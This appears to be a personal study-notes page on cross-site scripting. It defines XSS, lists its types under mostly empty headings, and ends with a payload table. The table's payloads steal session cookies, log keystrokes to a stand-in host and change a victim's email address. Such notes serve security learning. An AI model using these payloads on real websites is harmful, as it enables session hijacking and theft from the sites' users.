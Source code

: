 Cross-Site Scripting is an injection attack where malicious JavaScript gets injected into a web application with the intention of being executed by other users

![](https://github.com/JonmarCorpuz/SecondBrain/blob/main/Assets/Whitespace.png)

# Types of XSS

| XSS Type | Description |
| --- | --- |
| Reflected XSS | |
| Stored XSS | |
| DOM Based XSS | |
| Blind XSS | |

## Reflected XSS

## Stored XSS

## DOM Based XSS

## Blind XSS

![](https://github.com/JonmarCorpuz/SecondBrain/blob/main/Assets/Whitespace.png)

# XSS Payloads

| XSS Payload | Purpose | Description |
| --- | --- | --- |
| <script>alert("XSS");</script> | Proof of Concept | Demonstrates that a XSS is possible on a website by causing an alert box to pop up |
| <script>fetch('https://example.com/steal?cookie=' + btoa(document.cookie));</script> | Session Stealing | Takes the target's cookie, encodes it in base64 and then post it to a website under your control |
| <script>document.onkeypress = function(e) { fetch('https://example.com/log?key=' + btoa(e.key) );}</script> | Key Logger | Anything typed on the webpage will be forwarded to a website under your control |
| <script>user.changeEmail('attacker@hacker.email');</script> | Change a User's Email Address | Changes the logged in user's email address |
